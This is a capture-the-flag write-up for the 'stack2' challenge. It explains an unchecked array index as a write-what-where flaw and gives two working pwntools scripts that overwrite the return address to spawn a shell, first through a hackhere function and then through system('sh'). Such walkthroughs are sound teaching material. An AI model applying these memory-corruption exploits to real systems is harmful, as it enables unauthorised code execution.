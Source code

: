# Write-what-where stack2

Link : [stack2](https://adworld.xctf.org.cn/challenges/list)

Binary : [stack2](https://raw.githubusercontent.com/w31rdr4v3n/Binary-Exploitation/main/Write-what-where/data/3fb1a42837be485aae7d85d11fbc457b)


Here are the binary protections:

![checksec](data/3fb1a42837be485aae7d85d11fbc457b_checksec.png)

There is a hackhere function in the binary, this function allows you to execute a /bin/bash shell.

![hackhere f](data/3fb1a42837be485aae7d85d11fbc457b_hackhere.png)

Let's go to the main function

The program takes numbers as input.

It can display numbers, add other numbers, change previously added numbers, calculate the average of numbers and exit.

![run binary](data/3fb1a42837be485aae7d85d11fbc457b_main_run.png)

The vulnerability lies at the level of number change, there is no control.

![ghidra vuln](data/3fb1a42837be485aae7d85d11fbc457b_vuln.png)

If you enter any number to change, it will change that number in memory: which is dangerous.

If you enter -100, it will change in memory the value located at offset -100 in our table.

This is actually a `Write-what-where` vulnerability.

```js
CWE-123: Write-what-where Condition

Any condition where the attacker has the ability to write an arbitrary value to an arbitrary location, often as the result of a buffer overflow. 

https://cwe.mitre.org/data/definitions/123.html
```

Here as we can write anywhere, then we can overwrite the EIP directly without worrying about the Canary.

There, we need two things:

1 - The address of the hackhere function.

2 - The ESP offset from the buffer.

Here is the address of the hackhere function in gdb:

![address hackhere](data/3fb1a42837be485aae7d85d11fbc457b_address_hackhere.png)

To obtain the ESP offset from the buffer, we can subtract the RSP address from the buffer address.

For the buffer, this is the address of the local_78 array.

Let's put a breakpoint at the LEA instruction to get its address.

![LEA](data/3fb1a42837be485aae7d85d11fbc457b_LEA.png)

![LEA](data/3fb1a42837be485aae7d85d11fbc457b_LEA_BUFFER.png)

We therefore have the address of the buffer, this remains the address of the ESP.

![ESP](data/3fb1a42837be485aae7d85d11fbc457b_ESP.png)

```py
offset = 0xffffd03c - 0xffffcfb8 # edx  = 0xffffcfb8  esp = 0xffffd03c
```

we can therefore overwrite the EIP by the address of the hackhere function.

Exploit 1:

```py
from pwn import *

sh = process("./3fb1a42837be485aae7d85d11fbc457b")

sh.sendlineafter(b"you have:",b"1")
sh.sendlineafter(b"me your numbers",b"1")

offset = 0xffffd03c - 0xffffcfb8 # edx  = 0xffffcfb8  esp = 0xffffd03c

for address in [0x9b, 0x85, 0x04, 0x08]:
	sh.sendlineafter(b"5. exit",b"3")
	sh.sendlineafter(b"which number to change:",str(offset).encode())
	sh.sendlineafter(b"new number:",str(address).encode())
	offset += 1
	

sh.sendlineafter(b"5. exit",b"5")
sh.interactive()
```

![Exploit](data/3fb1a42837be485aae7d85d11fbc457b_sh.png)

Exploit 2:

Instead of directly executing the hackhere function, we can execute the system function and pass it the string `sh` as an argument.

The system address.

![System](data/3fb1a42837be485aae7d85d11fbc457b_system.png)

The address of the string `sh`

![Sh](data/3fb1a42837be485aae7d85d11fbc457b_ssh.png)

```py
from pwn import *

sh = process("./3fb1a42837be485aae7d85d11fbc457b")

sh.sendlineafter(b"you have:",b"1")
sh.sendlineafter(b"me your numbers",b"1")

offset = 0xffffd03c - 0xffffcfb8 # edx  = 0xffffcfb8  esp = 0xffffd03c

for address in [0x50, 0x84, 0x04, 0x08]:
	sh.sendlineafter(b"5. exit",b"3")
	sh.sendlineafter(b"which number to change:",str(offset).encode())
	sh.sendlineafter(b"new number:",str(address).encode())
	offset += 1
	
offset +=4
for address in [0x87, 0x89, 0x04, 0x08]:
	sh.sendlineafter(b"5. exit",b"3")
	sh.sendlineafter(b"which number to change:",str(offset).encode())
	sh.sendlineafter(b"new number:",str(address).encode())
	offset += 1 
	
sh.sendlineafter(b"5. exit",b"5")
sh.interactive()
```

